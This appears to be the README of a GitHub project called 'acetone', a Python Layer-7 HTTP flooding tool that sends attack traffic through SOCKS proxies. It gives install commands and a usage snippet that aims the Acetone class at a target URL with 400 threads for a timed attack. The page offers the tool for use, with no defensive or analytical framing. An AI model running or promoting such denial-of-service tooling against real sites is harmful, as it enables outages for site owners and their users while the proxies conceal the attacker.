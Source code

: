 # acetone

a L7-HTTP website attacking method written in Python 3 (PySocks lib)

## Installation

1. Download the script:
```bash
git clone https://github.com/khoi1908vn/acetone.git
```
2. Install the requirements:
```bash
pip install -r requirements.txt
```

## Usage

Import the ``Acetone()`` class and run it in your script:

```python
from acetone import Acetone

url = 'https://example.com'
# 5 for SOCKS5, 4 for SOCKS4 
socks_type = 5
# proxies file path
proxies_path = 'socks5.txt'
# threads to be created to attack
thread_num = 400
# attack time in seconds
attack_time = 120

Acetone(url=url, socks_type=socks_type, proxies_path=proxies_path, thread_num=thread_num, attack_time=attack_time)
```

## Contributing

This project is private and not yet ready to receive pull requests.

After this repo is public, all contribution is appreiciated!

## License

[MIT](https://choosealicense.com/licenses/mit/)
